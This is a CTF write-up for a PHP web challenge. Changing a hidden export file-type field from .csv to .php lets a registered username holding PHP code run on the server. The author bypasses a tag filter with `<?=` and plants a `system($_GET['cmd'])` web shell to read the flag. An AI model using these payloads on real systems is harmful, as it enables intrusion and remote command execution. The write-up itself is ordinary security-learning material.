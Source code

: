 # Challenge:

Black Pink in My Dinh

FLAG Format: EHC{XXX}

# Solution:

First when we come up with the website there only `login` and `register` can work. Try to register a simple account. Login and we got something like log

![image](https://github.com/Katsumi1012/CTF/assets/90083485/82ca49b3-30ff-4dd8-9e1f-7801db4a14b6)

A button say `Export to CSV`. Click and we have a notification say

![image](https://github.com/Katsumi1012/CTF/assets/90083485/d93281e4-787c-40ed-ad5a-38f545db0e56)

Go to `file/45748278064a7c3ab066882.26555608.csv` and we got somthing like output of a excel file.

![image](https://github.com/Katsumi1012/CTF/assets/90083485/b157df8d-46a0-4689-b725-eb450e61c196)

First, I try to CSV injection but non of them work. Notice the challenge name is about php, finding again and we find a `hidden` in source code

![image](https://github.com/Katsumi1012/CTF/assets/90083485/2a8ff677-268c-4293-b7bb-2eebf15678d9)

The `value` have a string end with `.csv` in the end. Let's try to change it to php and export again if they work?

![image](https://github.com/Katsumi1012/CTF/assets/90083485/d3347bee-5c7d-432f-9b5d-87d0c581d9e8)

They worked, i can control the file type now.

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a7db7e7e-cea3-4c22-9462-f42910998024)

The only input we got is the `username`. Try to register a username like this: `<?php phpinfo(); ?>` and we can LMAO 😃. Login again and we see this

![image](https://github.com/Katsumi1012/CTF/assets/90083485/f21b2f47-3d92-40d1-82c4-c720e47ffc02)

I notice the `#` after the `<?php` look like it has been filter, i predict that won't work when export to php file and i'm, right

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a5df8ca8-a73b-4753-896f-413efd7bca81)

Search google is there anyway to start the php code without using `<?php`. And i got a result

![image](https://github.com/Katsumi1012/CTF/assets/90083485/9786a720-9969-4b5c-a504-9c3a4a1d13b6)

So let change the payload to this: `<?= phpinfo() ?>` and woala 👏

![image](https://github.com/Katsumi1012/CTF/assets/90083485/f6b39a5e-0b98-495c-bde7-c8782ce19998)

We got the right way. Try payload `<?= system("ls -la"); ?>`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/712188e0-f054-461f-84aa-2e7a9bb9955d)

Oh no. We got some error here. it's look like some how, they treat `ls` to a variable❓ Maybe the error from `"` because the server echo something out and the `"` get enter close the echo and we get error at `ls`. This time try `<?= system('ls -la'); ?>` and we get result

![image](https://github.com/Katsumi1012/CTF/assets/90083485/e4da5632-7929-4d65-855c-ecbaf62d314d)

We know all the trick around here. So this time i use this `<?= system($_GET['cmd']);?>` to not register over and over.

![image](https://github.com/Katsumi1012/CTF/assets/90083485/00d10a17-e284-4871-ab0f-f797729a9603)

And i found the `flag.txt` file 😙

![image](https://github.com/Katsumi1012/CTF/assets/90083485/50f680ff-e8fb-4ef8-8be5-5f07aa168e8d)

Cat the flag🚩

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/510aa687-d9a6-4df3-9964-aada67a87c56)

# ENJOY🤡
